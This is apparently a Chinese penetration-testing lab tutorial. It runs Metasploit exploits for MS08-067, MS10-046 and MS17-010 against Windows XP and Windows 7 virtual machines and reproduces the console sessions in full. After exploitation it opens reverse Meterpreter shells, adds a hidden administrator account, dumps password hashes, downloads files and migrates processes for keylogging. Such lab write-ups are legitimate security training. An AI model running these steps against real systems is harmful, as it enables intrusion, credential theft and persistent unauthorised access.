



# 渗透测试基础

## 渗透测试概述

渗透测试是一种安全评估方法，通过模拟黑客攻击的方式来发现网络设备和应用的安全漏洞。渗透测试通常分为 **白盒测试** 和 **黑盒测试** 。白盒测试是在了解目标系统内部结构的情况下进行的测试，而黑盒测试则是在几乎不了解目标系统的情况下进行的测试，类似于真实的黑客攻击。

渗透测试的基本步骤：

1. 确定目标：首先明确渗透测试的目标，这可能是一个网站、网络服务、应用程序或服务器等。

2. 信息收集：这是渗透测试中至关重要的一步。通过收集目标的相关信息，如IP地址、域名、开放的端口、运行的服务、系统版本等，可以为后续的攻击提供依据。

3. 漏洞探测：利用收集到的信息，使用各种工具和技术来探测目标系统的潜在漏洞。常见的漏洞包括SQL注入、XSS跨站脚本、CSRF跨站请求伪造、文件上传漏洞等。

4. 漏洞利用：在发现漏洞后，尝试利用这些漏洞获取目标系统的更高权限或敏感信息。这可能涉及到使用特定的漏洞利用工具或编写自定义的攻击代码。

5. 内网转发：如果渗透测试的目标是内网系统，可能需要进行内网转发，以便从外部访问内网资源。

6. 内网渗透：在获取了外网服务器的权限后，尝试进一步渗透内网，寻找更多的敏感信息或攻击目标。

7. 痕迹清除：在完成渗透测试后，应尽量清除留下的痕迹，以避免被系统管理员发现。

8. 撰写渗透测试报告：最后，需要撰写一份详细的渗透测试报告，指出发现的漏洞、攻击过程以及修补建议，帮助客户提高系统的安全性。

渗透测试的工具和技术

在渗透测试过程中，会使用到各种工具和技术。例如，Nessus和nmap用于主机和端口扫描，AWVS、AppScan、OWASP-ZAP用于网站漏洞扫描，Sqlmap用于SQL注入攻击，Beef-XSS用于XSS攻击，以及Metasploit Framework等用于漏洞利用和提权。

渗透测试不仅仅是技术操作，还需要对业务逻辑有深入的理解，并能提供有效的安全解决方案。渗透测试的目的是帮助建立一个更安全的网络环境，而不是用于非法活动。在进行渗透测试之前，必须获得目标系统所有者的授权。

渗透测试的标准: [PTES](https://www.freebuf.com/articles/web/202774.html)

## 主机攻防演练

### MS08-067[RPC]

#### 漏洞描述

Microsoft Windows Server服务RPC请求缓冲区溢出漏洞。Windows的Server服务在处理特质RPC请求时存在缓冲区溢出漏洞，远程攻击者可以通过发送恶意的RPC请求触发这个溢出，导致完全入侵用户系统，SYSTEM权限执行任意指令。 对于Windows 2000、XP和Server 2003，无需认证便可以利用该漏洞；对于Windows Vista和Server 2008，可能需要认证。

#### 靶机搭建

在VMware虚拟机创建一个kali（攻击机）和一个winxp虚拟机（靶机）。可以参考[winxp设置](../appendix/install_win.md)

两个虚拟机均采用NAT网络模式，确保两机可以互相`ping`通。

本实验两机的ip为：

kali: `196.168.69.128`

winxp: `196.168.69.130`

#### `nmap`扫描主机

```sh
┌──(kali㉿kali)-[~]
└─$ nmap -F 192.168.69.130    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-29 06:40 EST
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.06 seconds
                                                                                                                                                                                                        
┌──(kali㉿kali)-[~]
└─$ nmap -F -Pn 192.168.69.130
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-29 06:40 EST
Nmap scan report for 192.168.69.130
Host is up (0.00093s latency).
Not shown: 98 filtered tcp ports (no-response)
PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 15.05 seconds
```

目标端口 `445`

服务 `microsoft-ds`

#### 使用`msfconsole`进行渗透

1. 先启动`msfconsole`寻找`ms08-067`相关的攻击模块。

```sh
┌──(kali㉿kali)-[~]
└─$ msfconsole
Metasploit tip: Use sessions -1 to interact with the last opened session
Metasploit Documentation: https://docs.metasploit.com/

msf6 > search ms08-067

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/ms08_067_netapi
```

2. 这里只有一个可用的`exploit`模块，`use`它

```sh
msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms08_067_netapi) > 
```

3. 然后`show targets`查看并设置目标主机的类型（本实验使用的靶机为`Windows XP SP3 Chinese - Simplified`）

```sh
msf6 exploit(windows/smb/ms08_067_netapi) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
        / ignore some outputs. /
    31  Windows XP SP2 Turkish (NX)
    32  Windows XP SP3 Arabic (NX)
    33  Windows XP SP3 Chinese - Traditional / Taiwan (NX)
    34  Windows XP SP3 Chinese - Simplified (NX)
    35  Windows XP SP3 Chinese - Traditional (NX)
        / ignore some outputs. /

msf6 exploit(windows/smb/ms08_067_netapi) > set target 34
target => 34
```

4. 然后用`show options`查看还需要设置哪些参数，这里把`rhosts`设置为目标主机ip即可。

```sh
msf6 exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.69.128   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   34  Windows XP SP3 Chinese - Simplified (NX)


View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/ms08_067_netapi) > set rhosts 192.168.69.130
rhosts => 192.168.69.130
```

5. 用`show payloads`查看有哪些可用的`payload`，这里使用62号

```sh
msf6 exploit(windows/smb/ms08_067_netapi) > show payloads

Compatible Payloads
===================

   #    Name                                                        Disclosure Date  Rank    Check  Description
   -    ----                                                        ---------------  ----    -----  -----------
        / ignore some outputs. /
   61   payload/windows/meterpreter/reverse_ord_tcp                                  normal  No     Windows Meterpreter (Reflective Injection), Reverse Ordinal TCP Stager (No NX or Win7)
   62   payload/windows/meterpreter/reverse_tcp                                      normal  No     Windows Meterpreter (Reflective Injection), Reverse TCP Stager
   63   payload/windows/meterpreter/reverse_tcp_allports                             normal  No     Windows Meterpreter (Reflective Injection), Reverse All-Port TCP Stager
        / ignore some outputs. /

msf6 exploit(windows/smb/ms08_067_netapi) > set payload payload/windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
```

6. 再次`show options`确认所有参数已设置后用`run`命令进行渗透，如下显示即为渗透成功。

```sh
msf6 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 192.168.69.128:4444 
[*] 192.168.69.130:445 - Attempting to trigger the vulnerability...
[*] Sending stage (176198 bytes) to 192.168.69.130
[*] Meterpreter session 1 opened (192.168.69.128:4444 -> 192.168.69.130:1163) at 2024-12-29 07:10:57 -0500

meterpreter > 
```

#### 渗透后利用

1. 查看权限

```sh
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

可以看到获得了system权限。

2. shell

```sh
meterpreter > shell
Process 1204 created.
Channel 1 created.
Microsoft Windows XP [�汾 5.1.2600]
(C) ��Ȩ���� 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter ��������:

        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.69.130
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.69.2

C:\WINDOWS\system32>exit
exit
meterpreter > 
```

成功进入靶机的shell

3. 截图

```sh
meterpreter > screenshot
Screenshot saved to: /home/kali/zyYiUoId.jpeg
```

4. 添加账号并把账号添加到管理员组

```sh
meterpreter > shell
Process 1104 created.
Channel 2 created.
Microsoft Windows XP [�汾 5.1.2600]
(C) ��Ȩ���� 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>net user hacker pwd /add
net user hacker pwd /add
�����ɹ����ɡ�


C:\WINDOWS\system32>net localgroup administrators hacker /add
net localgroup administrators hacker /add
�����ɹ����ɡ�
```

回到靶机查看可以发现多了一个`hacker`账号。


### MS10-046[快捷方式自动执行代码]

#### 漏洞描述

Microsoft Windows快捷方式LNK文件自动执行代码漏洞。Windows支持使用快捷方式或LNK文件。LNK文件是指向本地文件的引用，点击LNK文件与点击快捷方式所制定的目标具有相同效果。 Windows没有正确的处理LNK文件，特制的LNK文件可能导致 Windows自动执行快捷方式文件所指定的代码。这些代码可能位于USB驱动、本地或远程文件系统、光驱或其他位置，使用资源管理器查看了LNK文件所在的位置就足以触发这个漏洞受影响系统包括:Windows XP SP3/SP2、Vista SP2/SP1、Server 2008 R2/SP2和Win 7。

#### 实验环境

与上一小节的一致，两机的ip为：

kali: `196.168.69.128`

winxp: `196.168.69.130`

#### 使用`msfconsole`进行渗透

流程与上一小节的基本一致。

::: info 流程
`search ms10_046` $\rightarrow$ `use 0` $\rightarrow$ `show options` 并设置参数 $\rightarrow$ `set payload ***` $\rightarrow$ `run`
:::

```sh
msf6 > search ms10_046

Matching Modules
================

   #  Name                                                      Disclosure Date  Rank       Check  Description
   -  ----                                                      ---------------  ----       -----  -----------
   0  exploit/windows/browser/ms10_046_shortcut_icon_dllloader  2010-07-16       excellent  No     Microsoft Windows Shell LNK Code Execution
   1  exploit/windows/smb/ms10_046_shortcut_icon_dllloader      2010-07-16       excellent  No     Microsoft Windows Shell LNK Code Execution
   2  auxiliary/fileformat/multidrop                                             normal     No     Windows SMB Multi Dropper


Interact with a module by name or index. For example info 2, use 2 or use auxiliary/fileformat/multidrop

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/browser/ms10_046_shortcut_icon_dllloader) > show options

Module options (exploit/windows/browser/ms10_046_shortcut_icon_dllloader):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  80               yes       The daemon port to listen on (do not change)
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   UNCHOST                   no        The host portion of the UNC path to provide to clients (ex: 1.2.3.4).
   URIPATH  /                yes       The URI to use (do not change).


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.69.128   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


View the full module info with the info, or info -d command.

msf6 exploit(windows/browser/ms10_046_shortcut_icon_dllloader) > set srvhost 192.168.69.128
srvhost => 192.168.69.128
msf6 exploit(windows/browser/ms10_046_shortcut_icon_dllloader) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(windows/browser/ms10_046_shortcut_icon_dllloader) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/browser/ms10_046_shortcut_icon_dllloader) > 
[*] Started reverse TCP handler on 192.168.69.128:4444 
[*] Send vulnerable clients to \\192.168.69.128\JJJmKegQbZ\.
[*] Or, get clients to save and render the icon of http://<your host>/<anything>.lnk
[*] Using URL: http://192.168.69.128/
[*] Server started.
```

执行`run`之后会生成一个`url`，在靶机`winxp`浏览器访问该`url`后，在终端会受到反馈如下：

```sh
[*] 192.168.69.130   ms10_046_shortcut_icon_dllloader - Sending UNC redirect
[*] 192.168.69.130   ms10_046_shortcut_icon_dllloader - Responding to WebDAV OPTIONS request
[*] 192.168.69.130   ms10_046_shortcut_icon_dllloader - Received WebDAV PROPFIND request for /JJJmKegQbZ
[*] 192.168.69.130   ms10_046_shortcut_icon_dllloader - Sending 301 for /JJJmKegQbZ ...
[*] 192.168.69.130   ms10_046_shortcut_icon_dllloader - Received WebDAV PROPFIND request for /JJJmKegQbZ/
[*] 192.168.69.130   ms10_046_shortcut_icon_dllloader - Sending directory multistatus for /JJJmKegQbZ/ ...
[*] 192.168.69.130   ms10_046_shortcut_icon_dllloader - Received WebDAV PROPFIND request for /JJJmKegQbZ
[*] 192.168.69.130   ms10_046_shortcut_icon_dllloader - Sending 301 for /JJJmKegQbZ ...
[*] 192.168.69.130   ms10_046_shortcut_icon_dllloader - Received WebDAV PROPFIND request for /JJJmKegQbZ/
[*] 192.168.69.130   ms10_046_shortcut_icon_dllloader - Sending directory multistatus for /JJJmKegQbZ/ ...
[*] 192.168.69.130   ms10_046_shortcut_icon_dllloader - Received WebDAV PROPFIND request for /JJJmKegQbZ
[*] 192.168.69.130   ms10_046_shortcut_icon_dllloader - Sending 301 for /JJJmKegQbZ ...
[*] 192.168.69.130   ms10_046_shortcut_icon_dllloader - Received WebDAV PROPFIND request for /JJJmKegQbZ/
[*] 192.168.69.130   ms10_046_shortcut_icon_dllloader - Sending directory multistatus for /JJJmKegQbZ/ ...
[*] 192.168.69.130   ms10_046_shortcut_icon_dllloader - Received WebDAV PROPFIND request for /JJJmKegQbZ
[*] 192.168.69.130   ms10_046_shortcut_icon_dllloader - Sending 301 for /JJJmKegQbZ ...
[*] 192.168.69.130   ms10_046_shortcut_icon_dllloader - Received WebDAV PROPFIND request for /JJJmKegQbZ/
[*] 192.168.69.130   ms10_046_shortcut_icon_dllloader - Sending directory multistatus for /JJJmKegQbZ/ ...
[*] 192.168.69.130   ms10_046_shortcut_icon_dllloader - Received WebDAV PROPFIND request for /JJJmKegQbZ/desktop.ini
[*] 192.168.69.130   ms10_046_shortcut_icon_dllloader - Sending 404 for /JJJmKegQbZ/desktop.ini ...
[*] 192.168.69.130   ms10_046_shortcut_icon_dllloader - Sending LNK file
[*] 192.168.69.130   ms10_046_shortcut_icon_dllloader - Received WebDAV PROPFIND request for /JJJmKegQbZ/FfyUz.dll.manifest
[*] 192.168.69.130   ms10_046_shortcut_icon_dllloader - Sending 404 for /JJJmKegQbZ/FfyUz.dll.manifest ...
[*] 192.168.69.130   ms10_046_shortcut_icon_dllloader - Sending DLL payload
[*] 192.168.69.130   ms10_046_shortcut_icon_dllloader - Received WebDAV PROPFIND request for /JJJmKegQbZ/FfyUz.dll.123.Manifest
[*] 192.168.69.130   ms10_046_shortcut_icon_dllloader - Sending 404 for /JJJmKegQbZ/FfyUz.dll.123.Manifest ...
[*] Sending stage (176198 bytes) to 192.168.69.130
[*] Meterpreter session 1 opened (192.168.69.128:4444 -> 192.168.69.130:1039) at 2024-12-30 03:03:07 -0500
```

此时执行`sessions 1`即可。

```sh
msf6 exploit(windows/browser/ms10_046_shortcut_icon_dllloader) > sessions 1
[*] Starting interaction with 1...

meterpreter > shell
Process 208 created.
Channel 1 created.
Microsoft Windows XP [�汾 5.1.2600]
(C) ��Ȩ���� 1985-2001 Microsoft Corp.

C:\Documents and Settings\arwell\����>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter ��������:

        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.69.130
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.69.2

C:\Documents and Settings\arwell\����>exit
exit
meterpreter > exit
```

### MS17-010[SMB]

#### 漏洞描述

Microsoft Windows SMB Server远程代码执行漏洞(Eternal blue永恒之蓝)

Microsoft Server Message Block 1.0 (SMBv1)服务器处理某些请求时，在实现上存在远程代码执行漏洞，成功利用后可使 攻击者在目标服务器上执行任意代码。如果攻击失败，会导致 拒绝服务，对业务造成一定安全风险。
受影响的系统：Microsoft Windows Server 2016、Microsoft Windows Server 2012 R2、Microsoft Windows Server 2012、 Microsoft Windows Server 2008 R2、Microsoft Windows Server 2008、Microsoft Windows RT 8.1等等。

#### 实验环境

kali(攻击机): `192.168.69.128`

win7(靶机): `192.168.69.131`

实验时关闭win7的防火墙便于复现漏洞。

#### 使用`msfconsole`扫描渗透

先对靶机进行扫描

```sh
msf6 > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 > use 3
msf6 auxiliary(scanner/smb/smb_ms17_010) > set rhosts 192.168.69.131
rhosts => 192.168.69.131
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 192.168.69.131:445    - Host is likely VULNERABLE to MS17-010! - Windows 7 Home Basic 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.69.131:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/smb/smb_ms17_010) > back
```

用`back`命令推出当前模块，然后选择攻击模块。

```sh
msf6 > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.69.131
rhosts => 192.168.69.131
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         192.168.69.131   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target
                                             machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target mach
                                             ines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.69.128   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 192.168.69.128:4444 
[*] 192.168.69.131:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.69.131:445    - Host is likely VULNERABLE to MS17-010! - Windows 7 Home Basic 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.69.131:445    - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.69.131:445 - The target is vulnerable.
[*] 192.168.69.131:445 - Connecting to target for exploitation.
[+] 192.168.69.131:445 - Connection established for exploitation.
[+] 192.168.69.131:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.69.131:445 - CORE raw buffer dump (40 bytes)
[*] 192.168.69.131:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 48 6f 6d 65 20 42  Windows 7 Home B
[*] 192.168.69.131:445 - 0x00000010  61 73 69 63 20 37 36 30 31 20 53 65 72 76 69 63  asic 7601 Servic
[*] 192.168.69.131:445 - 0x00000020  65 20 50 61 63 6b 20 31                          e Pack 1        
[+] 192.168.69.131:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.69.131:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.69.131:445 - Sending all but last fragment of exploit packet
[*] 192.168.69.131:445 - Starting non-paged pool grooming
[+] 192.168.69.131:445 - Sending SMBv2 buffers
[+] 192.168.69.131:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.69.131:445 - Sending final SMBv2 buffers.
[*] 192.168.69.131:445 - Sending last fragment of exploit packet!
[*] 192.168.69.131:445 - Receiving response from exploit packet
[+] 192.168.69.131:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.69.131:445 - Sending egg to corrupted connection.
[*] 192.168.69.131:445 - Triggering free of corrupted buffer.
[*] Sending stage (201798 bytes) to 192.168.69.131
[*] Meterpreter session 1 opened (192.168.69.128:4444 -> 192.168.69.131:49160) at 2024-12-31 00:48:19 -0500
[+] 192.168.69.131:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.69.131:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.69.131:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter >
```

如上显示则成功渗透。

#### 渗透后利用

1. 屏幕截图
```sh
meterpreter > screenshot
Screenshot saved to: /home/kali/SJPBNUap.jpeg
```

2. 上传文件
```sh
meterpreter > upload /home/kali/file.txt
[*] Uploading  : /home/kali/file.txt -> file.txt
[*] Uploaded 27.00 B of 27.00 B (100.0%): /home/kali/file.txt -> file.txt
[*] Completed  : /home/kali/file.txt -> file.txt
```



3. 下载文件
```sh
meterpreter > download drivers/etc/hosts
[*] Downloading: drivers/etc/hosts -> /home/kali/hosts
[*] Downloaded 824.00 B of 824.00 B (100.0%): drivers/etc/hosts -> /home/kali/hosts
[*] Completed  : drivers/etc/hosts -> /home/kali/hosts
```
得到靶机的`hosts`文件。

4. 获取口令哈希
```sh
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
arwell:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

在[解密网站cmd5](cmd5.com)上解密有：




5. shell
```sh
meterpreter > shell
Process 1388 created.
Channel 3 created.
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����

C:\Windows\system32>exit
exit
```

6. 监听键盘输入

要想对用户`user`的键盘进行记录的话，需要把进程迁移到用户`user`的进程。
在`SYSTEM`权限下时无法捕获`user`的键盘记录。

::: info 流程
`ps`找到用户进程 $\rightarrow$ `migrate PID`迁移进程 $\rightarrow$ `keyscan_start`开启监听 $\rightarrow$ `keyscan_dump`输出捕获记录 $\rightarrow$ `keyscan_stop`停止监听
:::

```sh
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System             x64   0
 224   4     smss.exe           x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 240   452   svchost.exe        x64   0        NT AUTHORITY\NETWORK SERVICE
 304   296   csrss.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 356   344   csrss.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 364   296   wininit.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
 404   344   winlogon.exe       x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
 452   364   services.exe       x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
 460   364   lsass.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsass.exe
 468   364   lsm.exe            x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsm.exe
 572   452   svchost.exe        x64   0        NT AUTHORITY\SYSTEM
 640   452   svchost.exe        x64   0        NT AUTHORITY\NETWORK SERVICE
 724   452   svchost.exe        x64   0        NT AUTHORITY\LOCAL SERVICE
 732   452   svchost.exe        x64   0        NT AUTHORITY\LOCAL SERVICE
 776   452   svchost.exe        x64   0        NT AUTHORITY\SYSTEM
 808   452   svchost.exe        x64   0        NT AUTHORITY\SYSTEM
 836   572   dllhost.exe
 872   1296  notepad.exe        x64   1        WIN-3GJGECVHTIC\arwell        C:\Windows\system32\NOTEPAD.EXE
 912   452   spoolsv.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 928   1296  cmd.exe            x64   1        WIN-3GJGECVHTIC\arwell        C:\Windows\system32\cmd.exe
 964   452   svchost.exe        x64   0        NT AUTHORITY\LOCAL SERVICE
 1136  452   taskhost.exe       x64   1        WIN-3GJGECVHTIC\arwell        C:\Windows\system32\taskhost.exe
 1180  452   wmpnetwk.exe       x64   0        NT AUTHORITY\NETWORK SERVICE
 1224  776   dwm.exe            x64   1        WIN-3GJGECVHTIC\arwell        C:\Windows\system32\Dwm.exe
 1296  1204  explorer.exe       x64   1        WIN-3GJGECVHTIC\arwell        C:\Windows\Explorer.EXE
 1376  452   svchost.exe        x64   0        NT AUTHORITY\NETWORK SERVICE
 1464  452   svchost.exe        x64   0        NT AUTHORITY\LOCAL SERVICE
 1660  356   conhost.exe        x64   1        WIN-3GJGECVHTIC\arwell        C:\Windows\system32\conhost.exe
 1772  452   sppsvc.exe         x64   0        NT AUTHORITY\NETWORK SERVICE
 1776  452   svchost.exe        x64   0        NT AUTHORITY\SYSTEM
 1952  452   SearchIndexer.exe  x64   0        NT AUTHORITY\SYSTEM

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > migrate 872
[*] Migrating from 912 to 872...
[*] Migration completed successfully.
